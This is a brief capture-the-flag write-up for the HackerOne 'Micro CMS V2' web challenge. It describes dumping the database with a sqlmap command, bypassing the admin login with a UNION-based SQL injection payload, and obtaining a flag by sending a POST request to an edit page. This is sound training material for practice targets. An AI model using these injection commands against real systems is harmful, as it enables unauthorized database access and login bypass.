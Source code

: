```yaml
---
layout: post
title:  "Micro CMS V2"
date:   2025-04-20 15:15:00 -0400
categories: HACKERONE-ctf web easy
tags: hackerone CTF writeup sqlmap sql-injection
---
```


### CHALLENGE HINT
![](assets/img/hackerone/micro-cms-v2/1.png)

### Flag2
We should try some `sqlmap` by saving our `POST` to a file named `req` and run the command
```bash
sqlmap -r req --dump --batch
```
![](assets/img/hackerone/micro-cms-v2/2.png)

### Flag0
After reading the hints, we know that we need to use `SQL Injectiion` with `UNION`, we got the table name from the Flag2.

```bash
' UNION SELECT '123' AS password FROM admins WHERE '1' = '1
```

And then `password = 123`, we got the flag

### Flag1
By accident, I access the `/page/edit/2` by `POST` method, so we get the flag.

